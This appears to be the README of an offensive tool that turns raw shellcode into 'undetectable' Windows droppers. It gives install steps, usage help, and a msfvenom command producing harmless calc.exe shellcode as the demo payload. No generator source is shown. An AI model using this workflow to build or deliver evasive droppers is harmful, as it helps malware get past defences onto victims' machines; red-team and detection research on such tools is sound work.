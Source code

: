 # malware-generator

Simple project to generate 32bit or 64bit undetectable droppers from shellcodes

Thanks to [@slaeryan](https://twitter.com/slaeryan) for the great help and advices.


# Installation

```
pip3 install -r requirments.txt
```

# Usage

```
$ ./generator.py -h
usage: generator.py [-h] [-a ARCH] binaryPath

Simple raw shellcode Dropper Generator

positional arguments:
  binaryPath            File containing raw shellcode

optional arguments:
  -h, --help            show this help message and exit
  -a ARCH, --arch ARCH  Shellcode Architecture (1=x64, 2=x86) (default=x64)
  -d, --debug           Generate cpp code with the executable for debuging
```

Create raw 64bit or 32bit shellcode with any tool you like here i will use msfvenom calc 64bit shellcode.
```
msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin
```

Then use my tool to generate a dropper for it.
```
$ ./generator.py calc.bin 
[*] Generating x64 Dropper for calc.bin
[+] Executable saved to output/calc.exe
```


## Todo
* add check for tools and dependencies.
* add option to generate direct from msfvenom.
* add option to pass .NET assemblies and use donut.
* add option to specifed output directory and output name.
